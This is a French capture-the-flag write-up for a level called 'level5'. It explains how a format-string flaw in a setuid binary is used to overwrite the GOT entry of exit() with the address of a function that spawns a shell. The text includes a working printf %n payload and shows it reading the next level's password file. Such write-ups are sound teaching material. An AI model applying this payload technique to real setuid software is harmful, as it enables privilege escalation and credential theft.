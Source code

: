 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2045(level5) gid=2045(level5) groups=2045(level5),100(users)
/home/user/level5
total 17
dr-xr-x---+ 1 level5 level5   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level5 level5  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level5 level5 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level6 users  5385 Mar  6  2016 level5
-rw-r--r--+ 1 level5 level5   65 Sep 23  2015 .pass
-rw-r--r--  1 level5 level5  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level4 :

```bash
$ ./level5
(waiting for input)
$ ./level5
da
da
```

Je recoupe l'analyse ASM du binaire avec GDB des résultats obtenus sur [Dogbolt](https://dogbolt.org/?id=ba35d828-02dc-44ac-a188-182a91119498) et en extrait une version probable du code :

```c
void o()
{
    system("/bin/sh"); // <---------------------3 shell access

    _exit(1);
}

void n()
{
    char buffer[512];

    fgets(buffer, 512, stdin);
    printf(buffer); // <------------------------1 format string vulnerability, we use a Ret2plt exploit to alter where the PLT of exit() points to

    exit(1); // <-------------------------------2 write the address of o() as the PLT of exit(), so o() is called here
}

int main()
{
    n();
}
```

Je note les choses suivante :

- `fgets()` est utilisé, et n'est donc pas vulnérable
- `printf()` est utilisé, probablement expoitable comme le `level3` et `level4`

Je note un buffer plus grand que ce que `fgets()` lit, mais dans le niveau précédent c'était sans intérêt et je ne m'y intéresserait donc pas ici également. J'estime que la source de vulnérabilité ici est encore `printf()` et qu'il me faut par conséquent appeller la fonction `o()` au travers de cette vulnérabilité, afin d'obtenir le shell et le `.pass` du niveau suivant par extension.

J'obtiens l'adresse de `o()` avec `gdb` :

```h
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp <---------- ici
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp
   0x080484aa <+6>:     movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```

J'ai donc un premier élément important pour mon payload : `0x080484a4` (adresse de la fonction `o()` dans la stack).

Ce qui diffère des précedents niveaux ici, c'est qu'il ne s'agit pas de changer la valeur d'une variable mais bien d'appeller une autre fonction. Je me renseigne sur internet sur les vulnérabilité possible en ce sens et tombe sur un type de vulnérabilité du nom de [Ret2Plt](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got).

Ce type de vulnérabilité exploite le passage entre le `PLT` et le `GOT`, vulgarisé, cela implique les choses suivante :

- Un programme en C n'est pas compilé avec la `libc`, afin d'alléger le poids des binaires, donc, lors de la compilation, ces calls sont attribués un pointeur vers la `PLT` (Procedure Linkage Table)
- Lors de l'exécution du programme, chaque 'call' dans le code qui pointe vers une fonction de la `libc` (par exemple `exit()`) va passer au travers d'un procédé de `dynamic linking`.
- Avant ce passage, et comme on peut l'observer dans le `disas o` de `gdb` au dessus, ces 'call' sont suffixés par `@plt`, ce qui indique au runtime d'aller chercher dans la `GOT` (Global Offset Table) à quelle fonction cela correspond.
- Après ce passage, ces 'call' sont résolus par la conjonction de la `PLT` et la `GOT` afin d'associer un 'call' dans le binaire compilé, a une fonction de la `libc`.

Il va être pour nous ici question de changer vers quoi :

```h
(gdb) disas n
Dump of assembler code for function n:
    ...
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
```

`exit` pointe par son `plt`. Si nous pouvons "faire croire" à l'exécutable qu'`exit` est une fonction qui pointe vers `o()`, alors, au moment du `dynamic linking`, le programme résoudra que le call `exit` pointe vers la fonction `o()` et non la vraie fonction `exit` de la `libc`.

Pour construire un payload infecté qui effectue ce genre de shenaniganerie, ce dernier devra contenir :

- L'adresse de `o()`
- L'adresse `plt` de `exit()`

Je suis heurté a des problématiques similaire au précédents niveaux. Tout d'abord, le buffer est trop petit pour écrire les caractères avec `%n` dans un pointeur afin de changer son adresse, donc comme auparavent, je devrais utiliser l'astuce avec `%p` pour bypass la taille qui m'est allouée.

Le but du payload sera donc, je résume : de changer la valeur `@plt` vers quoi pointe `exit`.
Donner à `exit` comme valeur de pointeur, celle de l'adresse de `o()`.

Première étape, je trouve l'adresse '`plt`' de `exit` :

```h
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838 <----------------- ici
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```

Je construit mon payload dans l'optique de l'exploiter comme au `level4`, en voici donc la première partie :

```python
python -c 'print("\x08\x04\x98\x38"[::-1])'
```

J'ai plus haut trouvé l'adresse de `o()` : `0x080484a4`. Il me faut la traduire en une valeur décimale afin de savoir la valeur de padding à utiliser dans l'astuce du format `%p`. J'utilise ce site : [RapidTables](https://www.rapidtables.com/convert/number/hex-to-decimal.html) et trouve : `134513828`.

Comme pour le précedent niveau, je soustrais 4 bytes à ce chiffre pour inclure les précédents 4 bytes déjà écrit de l'adresse `plt` d'`_exit`, et ajoute ça à mon payload :

```python
python -c 'print("\x08\x04\x98\x38"[::-1] + "%134513824p")'
```

Il ne me reste plus qu'à utiliser l'exploit avec `%n` afin d'écrire tout ces caractères dans l'adresse d'`exit`.
Il me faut d'abord trouver avec l'astuce du `%x`, a quelle position se trouve cette adresse dans le contexte de la stack de `printf()` :

```bash
$ python -c 'print("a %x %x %x %x %x")' | ./level5
a 200 b7fd1ac0 b7ff37d0 78252061 20782520
                               ^
$ python -c 'print("b %x %x %x %x %x")' | ./level5
b 200 b7fd1ac0 b7ff37d0 78252062 20782520
                               ^
```

C'est donc ici le 4ème argument. Je peux donc conclure mon payload infecté :

```python
python -c 'print("\x08\x04\x98\x38"[::-1] + "%134513824p" + "%4$n")'
```

Pour rappel sur les 3 précédents niveaux : ces exploits fonctionnent dû au fait que `printf()` lit le buffer que `fgets()` lui donne, qui vient de nous. Cela représente une vulnérabilité car nous pouvons exploiter les formatteur du type : `%n`. Etant donné que ces derniers fonctionnent sur les arguments passés à `printf()`, mais qu'aucun sont présents, nous pouvons donc effectivement arbitrairement changer des valeurs dans la stack.

J'essaye mon payload :

```bash
$ (python -c 'print("\x08\x04\x98\x38"[::-1] + "%134513824p" + "%4$n")' && echo 'cat /home/user/level6/.pass') | ./level5
... (134 millions d'espace de padding)
                                                        0x200 (comme pour le level 4, le premier argument de la stack est imprimé, ici 512, la taille du buffer passé en paramètre)
(puis, la clé est imprimé, ce qui implique que nous avons correctement réussis à exécuter o(), ce qui implique que nous avons correctement réussis à ré-écrire ce vers quoi exit() a été linké, ici, donc, o())
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

Autre sources utilisées :
https://www.airs.com/blog/archives/38 (20 parties ! ! !)
https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc (très bon graphique qui illustre le payload inclus)

